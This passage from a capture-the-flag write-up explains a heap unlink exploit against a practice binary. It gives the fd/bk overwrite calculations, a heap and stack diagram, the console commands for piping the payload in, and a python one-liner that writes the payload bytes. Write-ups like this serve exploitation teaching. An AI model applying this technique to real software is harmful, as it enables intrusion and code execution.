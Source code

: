 
Ok let's do that! 

-   First, we need to overwrite `B->bk` with the address `ebp - 4`.  
    Thanks to the leaks we have the stack address of `A` which corresponds to
    `ebp - 0x14`, we can just add 0x10 to obtain the value that we want. 
-   Second, we need `B->fd` to be equal to an address on the heap that we
    can control, plus 4 bytes. We can use `A->buf` which address is equal to `&A + 8`,
    (we already know the value of `&A`) in this case `B->fd = &A + 8 + 4`.
-   At last, we just need to write the address of the function `shell` (which
    is at `0x80484eb`) at `A->buf`.

Using a debugger we can calculate that `B = A->buf + 16`, as the address
of the function `shell` already takes 4 bytes we need to insert a span of just
12 bytes after that in order to reach `B`.

    HEAP                   

    A         A->buf               B 
    +---------+-----+----------+----------+-----------+------+
    |         |shell|          | A->buf+4 | &A + 0x10 |      |
    +---------+-----+----------+----------+----+------+------+
              |<- 0x10 bytes ->|               |
                                               |
    STACK                                      |
                        &A           ebp-0x4   |
    +--------------------+---+------------+----v-----+-------+
    |                    | A |            | A->buf+4 |       |
    +--------------------+---+------------+----------+-------+
                         |<- 0x10 bytes ->|


Let's use two terminals: one to execute the program and another one to prepare
the input. In the first terminal I executed multiple time the command `cat` 
inside a subshell in order to be able to control the input flow of the program.
The first `cat` is used to block the program before injecting the payload,
the second is used to inject the payload and the third will let us interact with the 
shell.

```console
unlink@ubuntu:~$ (cat -; cat /tmp/mypayload; cat -) | ./unlink
here is stack address leak: 0xffb3dbb4
here is heap address leak: 0x87fe410
now that you have leaks, get shell! 
```

Now we can calculate the payload and write it into a file.

```console
unlink@ubuntu:~$ python -c "print '\xeb\x84\x04\x08' + 'A'*12 + '\x1c\xe4\x7f\x08' + '\xc4\xdb\xb3\xff'" > /tmp/mypayload
```
